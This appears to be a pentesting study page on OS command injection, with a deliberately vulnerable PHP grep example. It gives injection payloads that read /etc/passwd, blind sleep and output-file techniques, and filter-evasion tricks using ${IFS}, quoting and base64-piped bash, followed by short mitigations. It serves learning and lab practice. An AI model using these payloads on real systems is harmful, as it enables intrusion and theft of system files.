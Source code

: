 # Command injection

[Go back](../../index.md)

[![oscommandinjection](../../../../_badges/thmp/oscommandinjection.svg)](https://tryhackme.com/room/oscommandinjection)
[![owasptop10](../../../../_badges/thm/owasptop10.svg)](https://tryhackme.com/room/owasptop10)
[![command_injection](../../../../_badges/poat/command_injection.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)
[![picklerick](../../../../_badges/thm-p/picklerick.svg)](https://tryhackme.com/room/picklerick)
[![ignite](../../../../_badges/thm-p/ignite.svg)](https://tryhackme.com/room/ignite)
[![commandinjections](../../../../_badges/htb/commandinjections.svg)](https://academy.hackthebox.com/course/preview/command-injections)

<div class="row row-cols-md-2"><div>

A command injection occurs when a developer uses the user input in system commands without proper sanitization/measures.

For instance, a PHP website on Linux might use `grep`, `sed`, or other utilities instead of PHP functions for some operations:

```php!
$search = $_GET['q'];
$res = system("grep \"$search\" content/");
echo "<pre>$res</pre>";
```

With the following payload for `q`: `" -V; cat /etc/passwd #`, the command executed will be as follows, allowing us to steal /etc/passwd

```bash!
grep "" -V; cat /etc/passwd # content/
```
</div><div>

There are two kinds of command injections

* **Regular/in-band**: same channel to attack and gather results
* **Blind/out-band**: different channels to attack and gather results
    * Using redirections/flags, create a URL-accessible output file

```bash!
[...] cat /etc/passwd > /var/www/html/output.txt [...]
```

<ul>

* Using commands such as `sleep` to perform a time-based attack

</ul>

```bash!
[...] true && sleep 5 [...]
```
</div></div>

<hr class="sep-both">

## Basic Overview

<div class="row row-cols-lg-2"><div>

Assuming we have a list of vulnerable elements such as forms that may be vulnerable, we can try common characters:

* `;` — `%3B` — run two commands
* `\n` — `%0A` — run two commands
* `&&` — `%26%26` — executed if the previous ones succeed
* `||` — `%7C%7C` — executed if the previous ones failed
* `&` — `%26` — run two commands <small>(background previous)</small>
* `|` — `%7C` — run two commands  <small>(pipe previous one)</small>
* <code>&#96;&#96;</code> — `%60%60` — execute a command in another command
* `$()` — `%24%28%29` — execute a command in another command

You might try automated tools such as [commix](https://github.com/commixproject/commix) <small>(4.2k ⭐)</small>.
</div><div>

Assuming you found a vulnerable parameter, and are trying to exploit it, one of the main issues is [URL encoding](/tools-and-frameworks/knowledge/encoding/index.md#url-encoding---) the payload.
</div></div>

<hr class="sep-both">

## Bypass filters

<div class="row row-cols-lg-2"><div>

#### Character Filtering 

By-pass **space** character filtering.

* Try using tabs (`%09`)
* Try using variables (`${IFS}`)
* Try using brace expansion (`{ls,-la}`) (Bash)
* ...

By-pass **slash** character filtering.

* Try using variables (`${PATH:0:1}`)
* Try using variables (`${HOME:0:1}`)
* Try using variables (`${PWD:0:1}`) -- best
* Try using brace expansion (`{ls,-la}`) (Bash)
* ...

➡️ See also: `printenv` or `env` to list exploitable variables.

#### Bypass using obfuscation

Remember that such payloads may contain filtered characters. See also tools such as [Bashfuscator](https://github.com/Bashfuscator/Bashfuscator).

```ps
$ $(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
$ $(a="WhOaMi";printf %s "${a,,}")
$ # using base64
$ base64 <<< whoami
d2hvYW1pCg==
$ bash<<<$(base64 -d<<<d2hvYW1pCg==) # whoami
$ # using UTF-16 and base64
$ echo -n whoami | iconv -f utf-8 -t utf-16le | base64
```
</div><div>

#### Command Filtering

Put pair of quotes/double quotes anywhere within the command

```ps
# available on Linux, Windows (PowerShell)
$ w'ho'ami ; w""hoam''i
```

* Put `\\` or `$@` anywhere within the command

```ps
# available on Linux
$ w\ho\am\i ; who$@ami
```

* Put `^` anywhere within the command

```ps
# available on Windows (CMD)
CMD> who^am^i
```

* Reverse commands

```ps
$ $(rev<<<'imaohw')
PS> iex "$('imaohw'[-1..-20] -join '')"
```
</div></div>

<hr class="sep-both">

## Mitigation 🛡️

<div class="row row-cols-lg-2"><div>

* Avoid using uncontrolled input in system commands. Always validate and filter user input.

* Use web server engine functions instead of system functions

* Use a WAF or a similar tool
</div><div>
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* Windows Slash (`$env:HOMEPATH[0]`)
</div><div>
</div></div>